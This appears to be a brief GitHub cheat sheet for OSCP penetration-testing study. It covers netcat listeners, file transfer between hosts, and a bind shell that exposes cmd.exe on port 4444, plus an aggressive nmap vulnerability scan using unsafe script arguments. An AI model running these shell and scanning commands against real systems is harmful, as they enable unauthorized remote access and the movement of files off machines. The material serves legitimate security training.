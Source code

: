 # Go-For-OSCP

# Tips
<b>Enable service on every reboot:</b>

update-rc.d <[service]> enable

<b>Extract link from html page:</b>

cat index.html | grep "href=" | cut -d "/" -f3| grep "debian.org" | cut -d '"' -f1 | sort -u

# Netcat
<b>Interact with application:</b>

nc -nv <[IP]> <[PORT]>

<b>Listener:</b>

nc -nlvp <[PORT]>

<b>File transfer (client):</b>

nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Bind_Reverse_shell.png" width="500"/>

<b>Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:<b>

(BOB): nc -nlvp 4444 -e cmd.exe

<b>Alice connects to Bob's pc:<b>

(ALICE): nc -nv 10.11.17.9 4444







# Nmap
nmap -sS -sV -A -O --script="*-vuln-*" --script-args=unsafe=1 <[IP]>
